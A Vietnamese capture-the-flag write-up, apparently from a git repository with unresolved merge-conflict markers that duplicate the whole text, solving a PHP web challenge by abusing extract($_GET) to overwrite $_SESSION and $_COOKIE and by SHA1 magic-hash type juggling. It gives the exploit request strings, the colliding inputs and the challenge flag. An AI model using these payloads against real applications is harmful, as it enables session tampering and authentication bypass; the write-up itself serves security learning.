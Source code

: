 <<<<<<< HEAD
# Cookie and Milk 


[link-challenghe](https://battle.cookiearena.org/challenges/web/cookie-and-milk)

> Bài này có hai keyword được ghi dưới đề bài  : type juggling and hash magic 
>  đầu tiên là type juggling -> lỗi trong php từ phiên bản 8.x đổ xuống thì nó tùy còn ngữ cảnh mà sẽ ép  hai giá trị khi thực hiện so sánh qua if trong boolean expression về một loại chung , ví dụ như 
```
<?php
// Enter your code here, enjoy!
$a = "0d4545anh yêu em ";
$b = 0 ; 
var_dump($b == $a );

//output 
bool(true)
```
bởi nó sẽ dựa vào một bên chuỗi :  nếu 1 trong 2 là số , thì nó sẽ ép cả hai thành số , còn không cả hai là chuỗi thì nó sẽ có gắng ép thành numbers theo trang chủ php :>  !
 ![Alt text](image.png)
như thế kia vì ```$b=0``` là số thì ```$a``` cũng được ép thành số , lúc đó nó chỉ được coi là ```(int)$a``` và nó trở thành 0 cũng là số nên nó sẽ pass điều kiện ! 
> key word hash magic , khi các hàm mã như MD5 , SHA1 , .... mã ra một chuỗi "0e127617286... "  toàn là số đằng sau thì PHP sẽ hiểu là 0^127617 ... = 0 
[các bạn có thể xem thêm ở đây](https://github.com/spaze/hashes/blob/master/sha1.md)
vậy nên chỉ cần tìm hai chuỗi hash magic thì có phải nó đều được parse ra 0 thì 0 == 0  => return true

### BẮT ĐÀUA VÀO BÀI 
SOURCE CODE : 
```
<?php
include(__DIR__."/flag.php");
extract($_GET);
if (isset($_COOKIE['magic']) && isset($_SESSION['magic']))  {
    if ($_SESSION['magic'] === $_COOKIE['magic']) {
        echo "I love Cookie Han Hoan";
    } else if (sha1($_SESSION['magic']) == sha1($_COOKIE['magic'])) {
        echo $flag;
    }
} else {
    highlight_string(show_source(__FILE__));
}
?>
```
hàm extract sẽ lấy các key trong array và biến nó thành variable bằng cách thêm $ và lấy value được truyền theo ! 
Có thể ghi đè luôn các biến có sẵn như $_GET, $_POST,$_COOKIE,$_SESSION 
+nếu như bình thường thì ở phía client mà ko có hàm  ```extract()``` 
thì mình không thể can thiệp vào giá trị của ```$_SESSION``` được ! 
ban đầu mình sẽ truyền giá trị của hai biến $_SESSION và $_COOKIE giống nhau : 
```
GET /?_COOKIE[magic]=haha&_SESSION[magic]=haha HTTP/1.1
```
tham số này sau khi gặpp hàm extract()  sẽ thành  $_COOKIE['magic'] = 'haha' ,$_SESSION['MAGIC'] ="haha" , các value nhận qua biến global đều sẽ ở dạng string .
OUTPUT :
![Alt text](image-1.png)
giờ nhiệm vụ là tìm hai chuỗi hash theo sha1 mà đều ra 0 -> ra flag 
ở đây mình sẽ lấy 2 payload là : 
```
GET /?_COOKIE[magic]=aaroZmOk&_SESSION[magic]=aaK1STfY 
```
aaroZmOk:0e66507019969427134894567494305185566735
aaK1STfY:0e76658526655756207688271159624026011393 
->  và ta đã có flag 
``` CHH{TYpE_jU6gliNg_d5c3bd02e90fd038d98ad9c362715c47}```
=======
# Cookie and Milk 


[link-challenghe](https://battle.cookiearena.org/challenges/web/cookie-and-milk)

> Bài này có hai keyword được ghi dưới đề bài  : type juggling and hash magic 
>  đầu tiên là type juggling -> lỗi trong php từ phiên bản 8.x đổ xuống thì nó tùy còn ngữ cảnh mà sẽ ép  hai giá trị khi thực hiện so sánh qua if trong boolean expression về một loại chung , ví dụ như 
```
<?php
// Enter your code here, enjoy!
$a = "0d4545anh yêu em ";
$b = 0 ; 
var_dump($b == $a );

//output 
bool(true)
```
bởi nó sẽ dựa vào một bên chuỗi :  nếu 1 trong 2 là số , thì nó sẽ ép cả hai thành số , còn không cả hai là chuỗi thì nó sẽ có gắng ép thành numbers theo trang chủ php :>  !
 ![Alt text](image.png)
như thế kia vì ```$b=0``` là số thì ```$a``` cũng được ép thành số , lúc đó nó chỉ được coi là ```(int)$a``` và nó trở thành 0 cũng là số nên nó sẽ pass điều kiện ! 
> key word hash magic , khi các hàm mã như MD5 , SHA1 , .... mã ra một chuỗi "0e127617286... "  toàn là số đằng sau thì PHP sẽ hiểu là 0^127617 ... = 0 
[các bạn có thể xem thêm ở đây](https://github.com/spaze/hashes/blob/master/sha1.md)
vậy nên chỉ cần tìm hai chuỗi hash magic thì có phải nó đều được parse ra 0 thì 0 == 0  => return true

### BẮT ĐÀUA VÀO BÀI 
SOURCE CODE : 
```
<?php
include(__DIR__."/flag.php");
extract($_GET);
if (isset($_COOKIE['magic']) && isset($_SESSION['magic']))  {
    if ($_SESSION['magic'] === $_COOKIE['magic']) {
        echo "I love Cookie Han Hoan";
    } else if (sha1($_SESSION['magic']) == sha1($_COOKIE['magic'])) {
        echo $flag;
    }
} else {
    highlight_string(show_source(__FILE__));
}
?>
```
hàm extract sẽ lấy các key trong array và biến nó thành variable bằng cách thêm $ và lấy value được truyền theo ! 
Có thể ghi đè luôn các biến có sẵn như $_GET, $_POST,$_COOKIE,$_SESSION 
+nếu như bình thường thì ở phía client mà ko có hàm  ```extract()``` 
thì mình không thể can thiệp vào giá trị của ```$_SESSION``` được ! 
ban đầu mình sẽ truyền giá trị của hai biến $_SESSION và $_COOKIE giống nhau : 
```
GET /?_COOKIE[magic]=haha&_SESSION[magic]=haha HTTP/1.1
```
tham số này sau khi gặpp hàm extract()  sẽ thành  $_COOKIE['magic'] = 'haha' ,$_SESSION['MAGIC'] ="haha" , các value nhận qua biến global đều sẽ ở dạng string .
OUTPUT :
![Alt text](image-1.png)
giờ nhiệm vụ là tìm hai chuỗi hash theo sha1 mà đều ra 0 -> ra flag 
ở đây mình sẽ lấy 2 payload là : 
```
GET /?_COOKIE[magic]=aaroZmOk&_SESSION[magic]=aaK1STfY 
```
->  và ta đã có flag 
``` CHH{TYpE_jU6gliNg_d5c3bd02e90fd038d98ad9c362715c47}```
>>>>>>> 1e2b711503ede3642cbed596f8aac8842cf5abf3
